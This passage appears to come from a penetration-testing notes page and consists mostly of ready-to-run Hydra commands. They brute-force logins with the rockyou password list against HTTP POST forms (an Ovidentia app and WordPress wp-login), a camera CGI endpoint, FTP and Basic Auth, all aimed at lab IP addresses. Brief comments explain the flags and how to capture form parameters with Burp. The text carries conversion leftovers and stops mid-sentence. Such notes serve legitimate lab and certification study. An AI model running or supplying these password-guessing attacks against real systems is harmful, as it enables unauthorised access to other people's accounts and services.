 hydra -l bob -F -P /usr/share/wordlists/rockyou.txt 10.11.1.X -s 8080 http-post-form "/php/index.php:tg=login&#x26;referer=index.php&#x26;login=login&#x26;sAuthType=Ovidentia&#x26;nickname=^USER^&#x26;password=^PASS^&#x26;submit=Login:F=Failed:H=Cookie\: OV3176019645=a4u215fgf3tj8718i0b1rj7ia5"

hydra -l $username -P $dict -s $port $ip_address $request_method $path
hydra -l admin -P rockyou -s 8090 -f 192.168.1.4 http-get /get_camera_params.cgi

# ANOTHER OPTION IS http-get-form, same as http-post-form
# USE BURP TO INTERCEPT REQUEST AND SEE PARAMS FOR HYDRA
'/login.php:user=^USER^&#x26;pass=^PASS^' for example
http-post-form /f/login.php:username=^USER^&#x26;password=^PASS^&#x26;Login=Login:Login Failed

<strong># WITH ONLY ONE PARAM (NO LOGIN)
</strong>-l '' -P $WORDLIST “/index.php:key=^PASS^:Log in"

# HYDRA POST LOGIN
hydra -L $LOGIN -P $PASSWORD -f $IP http(s)-post-form 
"/wp-login.php:log=^USER^&#x26;pwd=^PASS^&#x26;wp-submit=...&#x26;testcookie=1:F=Invalid username"

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
# -f                      Exit after the first guess
# -vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt
# ftp / smb / protocol          Sets the protocol
</code></pre>

### Basic Auth

![hydra -L users -P pass -f 10.10.10.6 http-get /development](<../../.gitbook/assets/image (93).png>)

### API w/ JSON format

Maybe the API is actually designed to either accept Form data, or JSON data. The front-end sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:
